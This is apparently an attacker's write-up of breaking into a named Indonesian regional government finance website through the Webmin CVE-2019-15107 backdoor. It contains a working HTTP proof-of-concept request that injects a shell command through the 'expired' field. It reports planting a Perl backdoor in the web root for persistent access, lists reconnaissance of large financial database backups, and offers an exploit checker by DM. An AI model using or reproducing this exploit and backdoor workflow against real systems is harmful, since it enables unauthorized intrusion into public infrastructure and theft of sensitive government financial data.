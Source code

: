 **Target:** [bppkad.blorakab.go.id](https://bppkad.blorakab.go.id/)

### Vulnerability Details
- **CVE-2019-15107** in Webmin
- *Custom Python checker available (DM for script)*
- Webmin 1.890 contained backdoor allowing root command execution
- Versions 1.900-1.920 required:
  - Enabled password change feature at:  
    `Webmin -> Webmin Configuration -> Authentication`

### Proof of Concept
```http
POST /password_change.cgi HTTP/1.1
Host: 10.11.1.88:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: http://10.11.1.88:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

expired=id
```

### Attack Execution

**1. Backdoor Installation**
- Added Perl backdoor to `/var/www/html` for persistent access
- Verified via listener before proceeding

**2. Target Recon**
- Disk usage analysis:
  ```
  145G    /
  111G    /home
  110G    /home/backup-db/efinance
  110G    /home/backup-db
  51G     /home/backup-db/efinance/2021
  34G     /home/backup-db/efinance/2019
  29G     /var
  27G     /var/databases/firebird
  27G     /var/databases
  24G     /home/backup-db/efinance/2020
  ```
- Key discoveries:
  1. Primary database server
  2. Backups stored on production systems
  3. Firebird DBMS in use
